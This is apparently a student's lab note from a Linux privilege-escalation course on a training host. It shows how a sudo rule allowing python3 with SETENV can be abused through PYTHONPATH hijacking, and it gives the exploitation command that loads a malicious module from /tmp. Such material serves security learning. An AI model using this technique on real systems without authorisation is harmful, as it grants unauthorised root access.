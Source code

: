 ### PYTHONPATH Environment Variable

we are allowed to run /usr/bin/python3 under the trusted permissions of sudo and are therefore allowed to set environment variables for use with this binary by the `SETENV`
```shell
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

create a malcious script int `/tmp` and run
```shell
$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```

